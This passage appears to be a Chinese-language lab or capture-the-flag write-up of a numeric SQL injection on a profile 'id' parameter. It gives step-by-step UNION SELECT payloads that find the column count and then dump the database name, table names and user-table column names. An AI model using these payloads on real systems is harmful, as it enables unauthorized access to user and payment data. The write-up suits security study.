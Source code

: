 ![2-4.png](2-4.png)

确定此处存在数字型注入;

1. 首先用 `order by` 确定查询返回列数为 7:

```
/profile&id=115 order by 7
```
2. 接下来用 `union select` 和一个不存在的 id 爆出库名:

```
/profile&id=-1 union select database(),2,3,4,5,6,7
```

![2-5.png](2-5.png)

爆出库名: website

3. 爆出表名

```
/profile&id=-1 union select group_concat(table_name),2,3,4,5,6,7 from information_schema.tables where table_schema = 'website'
```

![2-6.png](2-6.png)

结果为 `contact,documents,hits,log,newsletter,payment,trainings,trainings_x_users,users`;

4. 爆出字段名:

```
/profile&id=-1 union select group_concat(column_name),2,3,4,5,6,7 from information_schema.columns where table_schema = 'website'
and table_name='users'
```
